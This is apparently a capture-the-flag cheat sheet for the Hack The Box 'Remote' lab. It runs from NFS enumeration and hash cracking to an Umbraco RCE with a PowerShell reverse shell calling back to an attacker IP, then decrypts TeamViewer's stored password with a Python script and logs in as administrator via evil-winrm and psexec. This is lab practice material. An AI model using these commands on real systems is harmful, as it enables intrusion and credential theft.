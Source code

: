 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## 🔍 **Recon**

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.180
nmap -sV -sC -p 21,80,111,135,139,445,2049,5985,47001 -oA scans/nmap-tcpscripts 10.10.10.180
```

## 🌐 [**Web Enumeration**](HTTP.md)

- No specific commands listed for web recon (manual browsing used).
- Umbraco admin panel discovered at `/Umbraco`.

## 📂 **NFS Enumeration & Mounting**

```bash
showmount -e 10.10.10.180
mount -t nfs 10.10.10.180:/site_backups /mnt/
cd /mnt/App_Data
strings Umbraco.sdf | head
```

## 🔓 **Hash Cracking**

```bash
cat admin.sha1
# (file contains: b8be16afba8c314ad33d812f22a04991b90e2aaa)

hashcat -m 100 admin.sha1 /usr/share/wordlists/rockyou.txt --force
```

## 💥 **Exploit (Umbraco RCE)**

```bash
# Prepare PowerShell reverse shell
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.19 -Port 443" >> shell.ps1

# Serve the payload
python3 -m http.server 80

# Run exploit (Python script edited to call shell.ps1)
python umbraco_rce_iex.py
```

## 🐚 **Catch Reverse Shell**

```bash
rlwrap nc -lvnp 443
```

## 🔎 **Post-Exploit Enumeration (TeamViewer found)**

```powershell
tasklist
cd 'HKLM:\software\wow6432node\teamviewer\version7'
get-itemproperty -path .
(get-itemproperty -path .).SecurityPasswordAES
```

## 🔑 **Decrypt TeamViewer Password (Python)**

```python
#!/usr/bin/env python3
from Crypto.Cipher import AES

key = b"\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
iv = b"\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
ciphertext = bytes([255, 155, 28, 115, 214, 107, 206, 49, 172, 65, 62, 174,
                    19, 27, 70, 79, 88, 47, 108, 226, 209, 225, 243, 218,
                    126, 141, 55, 107, 38, 57, 78, 91])
aes = AES.new(key, AES.MODE_CBC, IV=iv)
password = aes.decrypt(ciphertext).decode("utf-16").rstrip("\x00")
print(f"[+] Found password: {password}")
```

## 🪟 [**Admin Access**](SMB)

```bash
# Validate admin creds
crackmapexec smb 10.10.10.180 -u administrator -p '!R3m0te!'

# Evil-WinRM shell
evil-winrm -u administrator -p '!R3m0te!' -i 10.10.10.180

# Optional alternatives
psexec.py 'administrator:!R3m0te!@10.10.10.180'
wmiexec.py 'administrator:!R3m0te!@10.10.10.180'
```

---

📎 **Write-up Link**: [HTB: Remote by 0xdf](https://0xdf.gitlab.io/2020/09/05/htb-remote.html)
